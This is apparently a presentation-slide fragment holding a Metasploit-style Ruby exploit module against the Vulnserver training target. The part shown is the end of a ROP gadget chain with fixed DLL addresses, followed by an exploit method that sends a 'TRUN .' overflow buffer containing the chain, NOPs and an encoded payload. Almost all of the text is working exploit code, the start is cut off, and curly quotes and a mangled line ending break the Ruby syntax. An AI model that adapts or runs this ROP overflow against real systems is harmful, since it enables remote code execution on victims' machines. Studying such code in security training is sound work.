

0x76a5f9f1, # XCHG EAX,EBX # RETN [MSCTF.dll]
0x7779f5d4, # POP EAX # RETN [msvcrt.dll]
0xffffffc0, # Value to negate, will become 0x00000040
0x765e4802, # NEG EAX # RETN [user32.dll]
0x76386fc0, # XCHG EAX,EDX # RETN [kernel32.dll]
0x77dfd09c, # POP ECX # RETN [RPCRT4.dll]
0x62504dfc, # &Writable location [essfunc.dll]
0x77e461e1, # POP EDI # RETN [RPCRT4.dll]
0x765e4804, # RETN (ROP NOP) [user32.dll]
0x777f3836, # POP EAX # RETN [msvcrt.dll]
0x90909090, # nop
0x77d43c64, # PUSHAD # RETN [ntdll.dll]
     ].flatten.pack("V*")
     return rop_gadgets
  end
def exploit
   connect
   rop_chain = create_rop_chain()
   junk = rand_text_alpha_upper(target['Offset’])
   buf = "TRUN ."+junk + rop_chain + make_nops(16) + payload.encoded+'rn’
   sock.put(buf)
   handler
   disconnect
 end
end